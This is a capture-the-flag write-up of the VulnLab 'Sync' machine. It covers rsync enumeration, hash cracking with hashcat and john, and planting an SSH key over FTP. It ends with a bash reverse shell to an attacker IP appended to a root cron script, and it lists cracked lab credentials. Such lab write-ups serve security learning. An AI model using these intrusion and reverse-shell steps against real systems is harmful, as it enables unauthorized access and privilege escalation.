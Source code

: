```yaml
---
title: VulnLab -- Sync Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [enumeration,web exploitaion]
image:
    path: ../images/Sync-banner.png
---
```

# Sync

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Sync** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/sync-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 21,22,80,873 --min-rate=1000 10.10.64.150
```

![image.png](../images/sync.png)

Now let’s see the website running on port 80

![image.png](../images/sync%201.png)

As we see it’s a simple login page

Now let’s go to the rsync service and see if there is any shares

```bash
rsync 10.10.64.150::
```

![image.png](../images/sync%202.png)

and we have a httpd so let’s download it’s content

```bash
rsync 10.10.64.150::"httpd/www/dashboard.php" .
rsync 10.10.64.150::"httpd/www/index.php" . 
rsync 10.10.64.150::"httpd/www/logout.php" .
```

![image.png](../images/sync%203.png)

now let’s download the site database

```bash
rsync 10.10.64.150::"httpd/db/site.db" .
```

![image.png](../images/sync%204.png)

now let’s review the code!

![image.png](../images/sync%205.png)

> First we will notice that the code is vulnerable to sql injection but the most interesting thing is that the hash is calculated by concatenating the $secure ,$username and $password variables
> 

So let’s go and extract the passwords from the database we got

```bash
 SELECT * FROM users;
```

![image.png](../images/sync%206.png)

> Now we have everything we need the username and the secure
username: admin
hash: 7658a2741c9df3a97c819584db6e6b3c
username: triss
hash: a0de4d7f81676c3ea9eabcadfd2536f6
secure: 6c4972f3717a5e881e282ad3105de01e
> 

now let’s try to crack the password

```bash
cat crackme.txt
```

![image.png](../images/sync%207.png)

now let’s use hashcat to crack it

```bash
hashcat -m 20 crackme.txt /usr/share/wordlists/rockyou.txt
```

![image.png](../images/sync%208.png)

and we got the password for the user triss so let’s reuse it in the ftp

```bash
username: triss
password: gerald
```

![image.png](../images/sync%209.png)

now let’s generate a SSH keys

```bash
ssh-keygen
```

![image.png](../images/sync%2010.png)

now copy the public key in your folder and name it authorized_keys

```bash
cp ~/.ssh/id_ed25519.pub authorized_keys
```

![image.png](../images/sync%2011.png)

now in the ftp let’s make a .ssh directory

```bash
mkdir .ssh
```

![image.png](../images/sync%2012.png)

now navigate to it and upload the authorized_keys file

```bash
put authorized_keys
```

![image.png](../images/sync%2013.png)

Now let’s try to SSH  to the machine

```bash
ssh triss@10.10.64.150
```

![image.png](../images/sync%2014.png)

and we logged in

Now let’s navigate to the /backup directory

![image.png](../images/sync%2015.png)

and as we see alot of zip files is created so let’s download one of them

```bash
unzip 1743232081.zip 
```

![image.png](../images/sync%2016.png)

notice that there is a backup for the passwd and shadow file so let’s abuse it by making a cracking there hash

```bash
unshadow passwd shadow > crackme.txt
```

![image.png](../images/sync%2017.png)

Now let’s go and crack it

```bash
john crackme.txt --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/sync%2018.png)

> Notice that we got the passwords for all users
username: sa
password: sakura
username: jennifer
password: gerald
> 

Now let’s switch to the sa user

```bash
su sa
```

![image.png](../images/sync%2019.png)

Now let’s go and see if there is any hidden script running in the background

```bash
./pspy64
```

![image.png](../images/sync%2020.png)

> Notice that there is a script running as root
> 

let’s go and see our permission on this file

```bash
ls -las /usr/local/bin/backup.sh
```

![image.png](../images/sync%2021.png)

Since we are the user sa we can edit the script and add a reverse shell

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.8.5.233/1337 0>&1'" >> /usr/local/bin/backup.sh
```

![image.png](../images/sync%2022.png)

as we see the reverse shell was added so let’s open a listener on our machine

```bash
nc -lvnp 1337
```

![image.png](../images/sync%2023.png)

now let’s wait for the reverse shell

![image.png](../images/sync%2024.png)

and we got root so let’s go and see the root flag

```bash
cd /root;ls -las
```

![image.png](../images/sync%2025.png)

Amazing we got root flag 🥳

![image.png](../images/sync%2026.png)

That’s it for the **Sync** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX